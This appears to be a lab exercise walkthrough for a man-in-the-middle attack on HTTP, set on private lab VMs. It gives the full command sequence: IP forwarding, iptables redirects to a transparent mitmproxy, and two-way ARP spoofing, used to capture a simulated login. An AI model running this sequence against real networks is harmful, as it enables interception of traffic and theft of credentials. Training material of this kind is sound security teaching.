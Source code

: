 ## Task 1: MITM Attack on HTTP

Execute the commands below on the attacker's VM (Kali Linux)

```bash
# check these tools are installed
which mitmproxy
which arpspoof

# check interface name (should be eth0)
ip -o -4 addr show | grep '192\.168\.99\.' -n

sudo sysctl -w net.ipv4.ip_forward=1

# HTTP redirect
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp -d 192.168.99.2 --dport 80  -j REDIRECT --to-port 8080
# HTTPS redirect
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp -d 192.168.99.2 --dport 443 -j REDIRECT --to-port 8080

# confirm
sudo iptables -t nat -L PREROUTING -n -v --line-numbers | grep 192.168.99.2

sudo mitmproxy --mode transparent --listen-port 8080 --showhost

# you need 2 new terminal windows concurrently for ARP spoofing
# open a new terminal (terminal A)
sudo arpspoof -i eth0 -t 192.168.99.2 192.168.99.1
# open a new terminal (terminal B)
sudo arpspoof -i eth0 -t 192.168.99.1 192.168.99.2
```

And then, on the victim VM, open the browser and go to:
- http://victim.com (HTTP)

fill out the simulated login form and submit it, then get back to the attacker's VM (kali linux), if everything is correct, you should be able to capture the login information.